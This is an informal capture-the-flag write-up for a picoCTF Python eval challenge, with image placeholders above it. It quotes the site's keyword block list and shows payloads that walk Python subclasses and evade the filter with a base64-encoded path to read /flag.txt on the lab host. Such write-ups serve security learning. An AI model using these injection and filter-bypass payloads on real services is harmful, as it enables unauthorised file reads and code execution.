








### 3v@l - challenge 484

Access the lab, try exploit like [ssti1](../../../easy/ssti1/ssti.md)

using payload to manipulation this  `code` parameter `().__class__ + .__bases__[0] + .__subclasses__()` at POST - http://shape-facility.picoctf.net:55822/execute

`subprocess.Popen` and `os.wrap_close` available, try to exploit like `ssti1`

Get number of `os.wrap_close` at `132` subclass

Cannot using .__globals___. 

Try using payload for eval() but not work at all, they was blocked

They blocked some command like ('ls', 'os', 'cat')

i found on view source home page

they block `os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`

so, i try `open('flag.txt').read()`, Error: Detected forbidden keyword ''.

let's bypass using decode `hint 3`

decode it

invalid syntax `open(__import__('base64').b64decode(ZmxhZy50eHQ=)).read()`

....
 
try other base64 `./flag.txt` Li9mbGFnLnR4dA==

Still not work

my fail

it must be `open(__import__('base64').b64decode('Li9mbGFnLnR4dA==').decode()).read()`

but i got `Result: Error: [Errno 2] No such file or directory: './flag.txt'`

let try `/flag.txt`, we got flag

